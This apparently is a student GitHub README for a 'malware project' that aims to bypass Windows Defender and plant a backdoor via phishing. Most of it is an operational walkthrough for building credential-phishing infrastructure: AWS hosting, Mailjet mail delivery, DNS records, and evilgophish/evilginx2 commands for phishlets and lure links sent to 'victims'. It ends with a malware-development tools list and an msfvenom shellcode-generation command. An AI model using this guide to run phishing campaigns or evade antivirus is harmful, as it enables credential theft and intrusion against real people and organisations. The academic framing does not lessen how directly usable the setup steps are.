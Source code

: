 # Malware Project “Bypass antivirus with malware programming and forensics methodology”

This project is supposed to bypass windows defender and create a backdoor through a phishing link. This github is a step-by-step for setting up the environment. 


## Table of Contents:

   - [Principle of attack](#principle-of-attack)
   - [Phishing part](#phishing-part)
      - [AWS](#aws)
      - [Mailjet](#mailjet)
      - [Domain name](#domain-name)
      - [Evilgophish](#evilgophish)
           - [Gophish](#gophish)
           - [Evilginx2](#evilginx2)
      - [Apache](#apache)
      - [Phishing campaign](#phishing-campaign)
   - [Malware tools](#malware-tools)
   - [About us](#about-us)


## Principle of attack

![image](https://user-images.githubusercontent.com/80312634/227156955-5988f20d-ddf4-4cf4-8a12-cfc88e23ab5f.png)


## Phishing part

### AWS
---

We will use [AWS service](https://aws.amazon.com/) to create a virtual machine and install all the servers for phishing inside.
 
After login to your account, search for `EC2 service` and launch a `Ubuntu server` instance with `t2.micro` as instance type.

You must also generate a key pair to connect remotly to your AWS instance using SSH protocol. It will be needed later.
 
 
### Mailjet
---

Mailjet is a service for email delivery. Our phishing email link will go through our domain then mailjet to be received by our potential victims.

You will have to configure your DNS records by adding a SPF TXT record and TXT record. If you did, everything should be green

![image](https://user-images.githubusercontent.com/80312634/227162792-3b111c2f-cf8d-4603-8ea2-95a2eb021efe.png)


![image](https://user-images.githubusercontent.com/80312634/227162836-439494b4-1cb0-486b-a1f2-d00400b33989.png)


### Domain name
---

The domain is used to attract the victim to the apache web service to steal his/her credentials.

For this project, we choose Ionos for our web hosting company. But we can choose the one you prefer.

In your DNS records, you will have to create records as shown below:

![image](https://user-images.githubusercontent.com/80312634/227160189-634d2cb0-31f2-4638-b648-aa442f9199c3.png)



| Number of Records | Type | Usage                       |
| ------------------|:----:| ---------------------------:|
| 4                 | A    | with IP of AWS public ip    |
| 2                 | TXT  | for Mailjet                 |
| 1                 | TXT  | for evilgophish certificate |

> Be careful, AWS ip can change if you restart your instance 

> Also, for mailjet, one is a SPF TXT record and the other one is normal TXT record


### Evilgophish
---

`Evilgophish` is the combination of evilginx2 and gophish.

You can download the repository in your AWS instance with the command below:

```
git clone https://github.com/fin3ss3g0d/evilgophish
```

Now that you clone it, on your AWS instance's terminal, you must first setup the configuration of `evilgophish`.
      
```
sudo ./setup.sh <your_domain_name> login,www true <url_redirection> true client_id false
```

`<url_redirection>` : URL to redirect unauthorized Apache requests. In our case, we redirect unauthorized requests to `esme.fr`

Then, you will have to copy the lets encrypt command displayed by `setup.sh` that starts with:

```
sudo cerbot ...to... <your_domain_name>' 
```      
      
It will create an `_acme_challenge` certificate that you will have to paste it in your DNS as TXT record. 

---

   - ### Gophish

Now that Evilginx2 setup is configured, we can launch `gophish`. Go to `gophish` folder and run the command.

```
sudo ./gophish
```

A password and a login are displayed to access to gophish logging page.

Then to access the evilgophish dashboard, we must enter the following command with a terminal other than AWS.

```
ssh -L 3333:127.0.0.1:3333 -i <private_key_file_to_access_AWS> <user>:<AWS_public_ip>
```

`<user>` should be ubuntu if you create a ubuntu instance on AWS.

You can now access Gophish page at this IP address:

```
https://127.0.0.1:3333
```

---

   - ### Evilginx2

Let's also launch `evilginx2` to create our phishlets. Go to evilginx2 folder.

```
sudo ./evilginx2 -g <path_to_gophish>.gophish.db
```

You, first, need to configure your domain name and IP address with the following commands:  

```
Config domain <domain_name>

Config ip <AWS_public_ip>
```

Once done, we can then set up the phishlet we want to use.

```
phishlets hostname <phishlet_name> <domain_name>

phishlets enable <phishlet_name>
```

You can type `phishlets` to verify the status and active phishlets.

You should have choose a phishlet and enable it by the time. The last step is to create phishing link that we will send to our victim to carry out our attack:  

```
lures create <phishlet_name>  

lures get-url <id>
```


Don't forget to delete your lures and desactivate your phishlet before shutting down your instance.

```
lures delete all

phishlets disable <phishlet_name>
```


### Apache
---

`Apache2` is used as a proxy to the local `evilginx2` server and an additional hardening layer for your phishing infrastructure.

```
sudo apt update

sudo apt install apache2
```

### Phishing campaign
---


![image](https://user-images.githubusercontent.com/80312634/227782709-6e4c4ddc-335c-424e-acad-b8a6b7f1ad19.png)


You also need an email template

![image](https://user-images.githubusercontent.com/80312634/227782825-b92539d4-d14d-4826-a1f2-0e4cc856284a.png)


![image](https://user-images.githubusercontent.com/80312634/227782877-6183a6ce-4fb6-4a5d-8518-1a84b0b5ca59.png)




## Malware tools

We need to install multiples tools in Windows Virtual Machine:


- Since executing C++ code can damage our computer, we installed a [windows virtual machine](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/).
        
- To execute C++ code, we have to install a compiler, we used [mingw64](https://code.visualstudio.com/docs/cpp/config-mingw) gcc for Virtual Studio Code IDE to perform this task.
          
- Install [Pebear](https://github.com/hasherezade/pe-bear)

- Install [procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)

- Install [commando](https://github.com/mandiant/commando-vm)

- Install [ressourcehacker](http://www.angusj.com/resourcehacker/)

- MsfVenom is a usefull tool to generate payload. At first, we tried to generate a calculator with this command:

```
msfvenom --platform windows -- arch x64 -p windows/x64/exec CMD = calc.exe -b \x00\x0A\x0D  -f c
```


## About us

As engineering students majoring in Cybersecurity, we have to master different aspects of this field. For that, this project is perfect for us because it covers malwares, programming; forensics; antiviruses and phishing attacks. So, it’s an interesting project with many works and research to do.  

The end goal of this project is to bypass windows defender with a malware.
